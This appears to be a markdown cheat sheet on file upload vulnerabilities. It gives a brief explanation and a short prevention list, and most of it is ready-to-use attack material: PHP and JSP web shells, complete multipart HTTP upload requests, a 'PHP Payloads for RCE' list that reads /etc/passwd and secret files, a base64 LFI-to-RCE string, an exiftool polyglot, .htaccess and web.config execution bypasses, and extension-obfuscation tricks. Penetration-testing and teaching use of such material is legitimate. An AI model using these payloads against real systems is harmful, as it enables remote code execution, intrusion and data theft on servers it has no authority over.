 # Description
**File Upload Vulnerability** occurs when a web application allows a user to upload files without properly validating or restricting the file type, content, or destination. This can enable an attacker to upload malicious files, such as web shells, scripts, or executable binaries, leading to remote code execution, data breaches, or defacement.

### How Does File Upload Vulnerability Occur?

1. **Lack of File Type Validation**: The web application does not check the file type, allowing any kind of file (e.g., PHP, JSP, EXE) to be uploaded.
2. **Insecure File Storage Location**: Uploaded files are stored in directories that are accessible to the web server, allowing execution of the uploaded code.
3. **Weak File Name Validation**: The application does not sanitize the file name, allowing special characters or file extensions to be used.
4. **Content-Type Header Manipulation**: If the application relies solely on the `Content-Type` header to validate the file type, an attacker can manipulate the header to bypass the validation.
5. **Insufficient Server-Side Checks**: Validation is performed on the client side, which can be easily bypassed by an attacker.

### Where to Put a File Upload Payload?

The payload is uploaded as a file through an HTTP request where the application allows file uploads. Typically, you upload the payload in places like:
- **Profile picture upload forms**
- **Document upload forms**
- **Image galleries**
- **Resume or CV submission fields**
- **Custom file submission forms**

### Examples of HTTP Requests with File Upload Payloads

Here are some examples of HTTP requests for uploading a file with a malicious payload:

#### 1. PHP Web Shell Upload

Uploading a simple PHP script as a file to get remote code execution.

**Malicious File Content (`shell.php`):**
```php
<?php echo shell_exec($_GET['cmd']); ?>
```

**Example HTTP Request:**
```http
POST /upload HTTP/1.1
Host: vulnerable-website.com
Content-Type: multipart/form-data; boundary=---------------------------12345
Content-Length: 221

-----------------------------12345
Content-Disposition: form-data; name="file"; filename="shell.php"
Content-Type: application/x-php

<?php echo shell_exec($_GET['cmd']); ?>
-----------------------------12345--
```
In this example, the attacker uploads a file named `shell.php` that contains a PHP web shell. If the server stores the file in a web-accessible location, the attacker can execute commands by accessing `http://vulnerable-website.com/uploads/shell.php?cmd=ls`.

#### 2. Image Upload with Embedded PHP Code

Uploading an image file that contains embedded PHP code with a manipulated file extension.

**Malicious File Content (`image.php.jpg`):**
```php
<?php system($_GET['cmd']); ?>
```

**Example HTTP Request:**
```http
POST /upload HTTP/1.1
Host: vulnerable-website.com
Content-Type: multipart/form-data; boundary=---------------------------98765
Content-Length: 245

-----------------------------98765
Content-Disposition: form-data; name="file"; filename="image.php.jpg"
Content-Type: image/jpeg

<?php system($_GET['cmd']); ?>
-----------------------------98765--
```
The attacker uploads a file named `image.php.jpg`. If the server incorrectly identifies the file based on its extension rather than content, the attacker may execute commands by navigating to the uploaded file's URL.

#### 3. Bypassing Content-Type Validation

Some web applications check the `Content-Type` header to validate the file type. The attacker can manipulate the header to bypass this check.

**Malicious File Content (`shell.jsp`):**
```jsp
<% out.println("Command execution: " + Runtime.getRuntime().exec(request.getParameter("cmd"))); %>
```

**Example HTTP Request:**
```http
POST /upload HTTP/1.1
Host: vulnerable-website.com
Content-Type: multipart/form-data; boundary=---------------------------54321
Content-Length: 256

-----------------------------54321
Content-Disposition: form-data; name="file"; filename="shell.jsp"
Content-Type: image/jpeg

<% out.println("Command execution: " + Runtime.getRuntime().exec(request.getParameter("cmd"))); %>
-----------------------------54321--
```
Here, the attacker uploads a JSP file disguised with a `Content-Type` of `image/jpeg`, hoping that the server only checks the header and not the actual content of the file.

### Preventing File Upload Vulnerabilities

To mitigate file upload vulnerabilities:
1. **Restrict File Types**: Allow only specific, safe file types (e.g., images, documents) and validate the file type server-side.
2. **Rename Uploaded Files**: Generate unique, randomized file names and avoid using the original file name.
3. **Store Files Outside the Web Root**: Keep uploaded files outside directories accessible by the web server to prevent direct access.
4. **Scan Uploaded Files**: Use antivirus or security tools to scan for malicious content.
5. **Limit File Size and Type**: Set restrictions on the maximum file size and check the content against expected MIME types.

File upload vulnerabilities can lead to severe security issues, making it essential to implement strong validation and handling measures.

# PHP Payloads for RCE

## Normal Payloads
```php
<?php echo file_get_contents('/etc/passwd'); ?> >> To read files
<?php system($_GET['cmd']); ?> >> For system command
<?php passthru($_GET['cyborg71']); ?> >> For system command*
php://filter/convert.base64-decode/resource=data://plain/text,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4+&cmd=ls >> LFI to RCE
exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" hacker.jpg -o polyglot.php

```
## Exploiting Server Configuration
___
### Apache Bypass
```
Step 1 >>
filename=".htaccess"
Content-Type: text/plain
AddType application/x-httpd-php .shell
Step 2 >>
Content-Type: application/x-httpd-php
<?php system($_GET['cmd']); ?>
```
### IIS Bypass
```
Step 1 >>
filename="web.config"
Content-Type: text/plain
<configuration>
    <system.webServer>
        <staticContent>
            <mimeMap fileExtension=".php" mimeType="application/x-httpd-php" />
        </staticContent>
    </system.webServer>
</configuration>
Step 2 >>
Content-Type: application/x-httpd-php
<?php system($_GET['cmd']); ?>
```
## Obfuscating File Extensions
```
.php
.php3
.php4
.php5
.pHp
.shtml
.php.jpg
.php.png
%2Ephp
.php;.jpg
.php;.png  
.php%00.jpg
.php%00.png
.p.phphp
```
### Uploading files using PUT
```txt
PUT /images/exploit.php HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-httpd-php
Content-Length: 49

<?php echo file_get_contents('/path/to/file'); ?>
```
